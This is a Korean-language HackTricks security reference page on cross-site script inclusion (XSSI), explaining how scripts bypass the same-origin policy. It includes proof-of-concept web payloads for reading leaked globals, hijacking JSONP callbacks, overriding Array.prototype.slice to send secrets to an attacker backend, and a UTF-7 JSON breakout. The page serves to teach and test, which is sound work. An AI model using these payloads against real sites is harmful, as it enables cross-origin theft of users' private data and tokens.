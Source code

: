 # XSSI (크로스 사이트 스크립트 포함)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>


## 기본 정보

**크로스 사이트 스크립트 포함 (XSSI)**는 HTML의 `script` 태그의 특성에서 발생하는 취약점입니다. 대부분의 리소스는 **동일 출처 정책 (SOP)**의 영향을 받지만, 스크립트는 다른 도메인에서 포함될 수 있습니다. 이 동작은 다른 서버에 호스팅된 라이브러리 및 기타 리소스의 사용을 용이하게 하기 위한 것이지만, 잠재적인 보안 위험을 도입합니다.

### **XSSI**의 주요 특징:
- **SOP 우회**: 스크립트는 **동일 출처 정책**의 영향을 받지 않으므로 도메인 간에 포함될 수 있습니다.
- **데이터 노출**: 공격자는 `script` 태그를 통해 로드된 데이터를 읽을 수 있도록 이 동작을 악용할 수 있습니다.
- **동적 JavaScript/JSONP에 미치는 영향**: **XSSI**는 동적 JavaScript 또는 **JSON with Padding (JSONP)**에 특히 관련이 있습니다. 이러한 기술은 종종 인증을 위해 "주변 권한" 정보 (예: 쿠키)를 사용합니다. 다른 호스트로 스크립트 요청이 이루어지면 이러한 자격 증명 (예: 쿠키)이 자동으로 요청에 포함됩니다.
- **인증 토큰 누출**: 공격자가 사용자의 브라우저를 속여 자신이 제어하는 서버에서 스크립트를 요청하도록 할 수 있다면, 이러한 요청에 포함된 민감한 정보에 접근할 수 있을 수 있습니다.

### 유형

1. **정적 JavaScript** - 이것은 전통적인 XSSI를 나타냅니다.
2. **인증이 필요한 정적 JavaScript** - 이 유형은 액세스하기 위해 인증이 필요합니다.
3. **동적 JavaScript** - 동적으로 콘텐츠를 생성하는 JavaScript를 포함합니다.
4. **비-JavaScript** - 직접적으로 JavaScript와 관련되지 않은 취약점을 나타냅니다.

**다음 정보는 [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)의 요약입니다. 자세한 내용은 해당 링크를 확인하세요.


### 일반적인 XSSI
이 접근 방식에서는 개인 정보가 전역적으로 액세스 가능한 JavaScript 파일에 포함됩니다. 공격자는 파일 읽기, 키워드 검색 또는 정규 표현식과 같은 방법을 사용하여 이러한 파일을 식별할 수 있습니다. 한 번 찾으면, 개인 정보를 포함한 스크립트를 악성 콘텐츠에 포함시켜 민감한 데이터에 무단 액세스할 수 있습니다. 아래는 예시로서 악용 기술이 표시됩니다:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### 동적 자바스크립트 기반 XSSI와 인증된 자바스크립트 XSSI
이러한 유형의 XSSI 공격은 사용자의 요청에 대한 응답으로 스크립트에 동적으로 기밀 정보가 추가되는 경우에 발생합니다. 감지는 쿠키를 사용하거나 사용하지 않는 요청을 보내고 응답을 비교하여 수행할 수 있습니다. 정보가 다른 경우, 기밀 정보의 존재를 나타낼 수 있습니다. 이 프로세스는 [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) Burp 확장 프로그램과 같은 도구를 사용하여 자동화할 수 있습니다.

기밀 데이터가 전역 변수에 저장되어 있는 경우, 정규 XSSI에서 사용되는 방법과 유사한 방법을 사용하여 악용할 수 있습니다. 그러나 기밀 데이터가 JSONP 응답에 포함된 경우, 공격자는 콜백 함수를 탈취하여 정보를 검색할 수 있습니다. 이는 전역 객체를 조작하거나 JSONP 응답에 의해 실행되도록 함수를 설정함으로써 수행할 수 있습니다. 아래에 예시가 나와 있습니다:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
전역 네임스페이스에 존재하지 않는 변수의 경우, *프로토타입 조작* 기법을 이용하여 때때로 악용할 수 있습니다. 이 기법은 JavaScript의 설계를 활용하는데, 코드 해석은 호출된 속성을 찾기 위해 프로토타입 체인을 탐색하는 것을 포함합니다. `Array`의 `slice`와 같은 특정 함수를 무효화함으로써 공격자는 비전역 변수에 접근하고 노출시킬 수 있습니다:
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
추가적인 공격 벡터에 대한 자세한 내용은 보안 연구원 [Sebastian Lekies](https://twitter.com/slekies)의 작업에서 찾을 수 있으며, 그는 [벡터](http://sebastian-lekies.de/leak/)의 목록을 유지하고 있습니다.

### Non-Script-XSSI
Takeshi Terada의 연구는 Non-Script 파일(예: CSV)이 `script` 태그의 소스로 포함되어 크로스 오리진으로 유출되는 다른 형태의 XSSI를 소개합니다. Google 주소록을 완전히 읽는 Jeremiah Grossman의 2006년 공격과 Joe Walker의 2007년 JSON 데이터 유출과 같은 XSSI의 역사적인 사례는 이러한 위협의 심각성을 강조합니다. 또한, Gareth Heyes는 특정 브라우저에서 유효한 UTF-7 인코딩된 JSON을 사용하여 JSON 형식을 탈출하고 스크립트를 실행하는 공격 변형에 대해 설명합니다:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>을 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)을 **팔로우**하세요.
* **Hacking 트릭을 공유하려면 PR을** [**HackTricks**](https://github.com/carlospolop/hacktricks) **및** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github 저장소에 제출하세요.**

</details>
